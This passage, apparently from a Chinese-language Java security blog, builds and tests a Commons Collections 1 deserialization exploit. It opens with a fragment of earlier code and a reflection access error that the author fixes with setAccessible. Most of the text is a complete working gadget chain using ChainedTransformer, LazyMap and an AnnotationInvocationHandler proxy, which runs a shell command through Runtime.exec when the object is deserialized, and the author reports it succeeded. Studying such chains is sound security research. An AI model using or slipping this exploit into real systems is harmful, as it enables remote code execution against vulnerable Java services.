```
        e.printStackTrace();
    }
}
```
直接在jdk1.7.0_80下运行报错
```
Exception in thread "main" java.lang.IllegalAccessException: Class Test can not access a member of class sun.reflect.annotation.AnnotationInvocationHandler with modifiers ""
	at sun.reflect.Reflection.ensureMemberAccess(Reflection.java:110)
```
google了一下，发现是反射获取 non-public AccessField 的问题，通过setAccessible可以解决，修改一下
```
public static void testAnnotationInvocationHandlerPayload() throws Exception {
    // CommonCollections1 gadgets
    Transformer[] transformers = new Transformer[]{
            new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},
                    new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/XiaoC"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    Map map = LazyMap.decorate(new HashMap(), chain);

    // create dynamic for LazyMap, hook is AnnotationInvocationHandler
    Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor constructor = clazz.getDeclaredConstructors()[0];
    constructor.setAccessible(true);
    InvocationHandler invocationHandler = (InvocationHandler) constructor.newInstance(Override.class, map);
    Map proxy = (Map) Proxy.newProxyInstance(
            Test.class.getClassLoader(),
            map.getClass().getInterfaces(),
            invocationHandler
    );

    // use created proxy to construct a new hook(AnnotationInvocationHandler)
    InvocationHandler anotherInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, proxy);

    // serialize anotherInvocationHandler to file
    try (ObjectOutputStream os = new ObjectOutputStream(new FileOutputStream("TestAnnotationInvocationHandlerSer"))) {
        os.writeObject(anotherInvocationHandler);
    } catch (Exception e) {
        e.printStackTrace();
    }

    // deserialize
    try (ObjectInputStream is = new ObjectInputStream(new FileInputStream("TestAnnotationInvocationHandlerSer"))) {
        String anything = (String) is.readObject();
    } catch (IOException | ClassNotFoundException e) {
        e.printStackTrace();
    }
}
```
测试成功，并且可以看到我这里用的String类型进行反序列化声明。考虑到实际使用情况，任何类型都有可能，但是不影响结果。
